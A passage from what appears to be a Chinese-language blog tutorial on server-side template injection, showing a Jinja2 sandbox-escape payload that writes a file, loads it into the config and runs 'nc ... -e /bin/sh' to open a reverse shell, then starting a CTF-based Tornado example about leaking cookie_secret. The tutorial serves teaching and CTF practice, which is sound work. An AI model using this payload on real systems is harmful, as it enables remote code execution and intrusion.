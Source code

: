 from os import system SHELL = system 

到时候我们就能通过 config[‘SHELL’] 调用 system 方法了

那么文件怎么写入呢？Jinja2 有沙盒机制，我们必须通过绕过沙盒的方式写入我们想要的文件，具体的沙盒绕过可以参考我的一篇博文[python 沙盒逃逸备忘](http://www.k0rz3n.com/2018/05/04/Python 沙盒逃逸备忘/)

**最终的 payload:**

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil', 'w').write('from os import system%0aSHELL = system') }}
//写文件
{{ config.from_pyfile('/tmp/evil') }}
//加载system
{{ config['SHELL']('nc xxxx xx -e /bin/sh') }}
//执行命令反弹SHELL
```

##### **3.Tornado**

写文章的时候正巧赶上护网杯出了一道 tornado 的 SSTI 于是这里也作为一个比较好的例子给大家说明

根据提示这道题的意思就是通过SSTI 获取 cookie_secret，但是这里过滤了很多东西

"%'()*-/=[\]_| 

甚至把_(下划线)都过滤了，也就是说我们没法通过Python 的魔法方法进行沙盒逃逸执行命令，并且实际上对我们的寻找合适的 tornado 的内置的方法也有很多的限制。

我觉得除了直接阅读官方的文档，还有一个重要的方法就是直接下载 tornado 的框架源码，全局搜索 cookie_secret

**如下图：**

[![img](assets/1667436025746-27688f86-f92a-4dfe-a740-8ab2f640b38b.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/cookie_secret.png)此处输入图片的描述
